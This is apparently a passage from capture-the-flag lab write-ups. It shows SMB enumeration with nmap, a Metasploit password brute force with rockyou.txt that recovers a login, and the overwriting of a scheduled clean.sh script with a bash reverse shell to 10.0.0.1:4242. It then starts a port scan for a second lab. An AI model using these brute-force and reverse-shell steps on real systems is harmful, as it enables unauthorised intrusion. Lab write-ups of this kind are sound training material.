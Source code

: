 ```
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```


```
nmap --script smb-enum-users.nse -p445 10.10.154.70

445/tcp open  microsoft-ds
MAC Address: 02:1B:D1:3E:A6:F1 (Unknown)

Host script results:
| smb-enum-users: 
|   ANONYMOUS\namelessone (RID: 1003)
|     Full name:   namelessone
|     Description: 
|_    Flags:       Normal user account
```

Brute force smb login with username found from enumeration and the password file rockyou.txt
```
use  auxiliar/scanner/smb/smb_login
set smbuser namelessone
set pass_file /usr/share/wordlists/rockyou.txt
exploit

[+] 10.10.154.70:445      - 10.10.154.70:445 - Success: '.\namelessone:123456'

```

Attempt to sign into the smb share with the username namelessone
```
smclient //server/share -U namelessone
password:123456 
```


Login into the server with anon credentials
delete current bash script clean.sh, being executed
edit the file to include the lines below, which should pop a shell. 
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```



---------------
## Easy Peasy

#### Enumeration through NMAP

```
nmap -p- -T 4 -v 10.10.240.238

PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
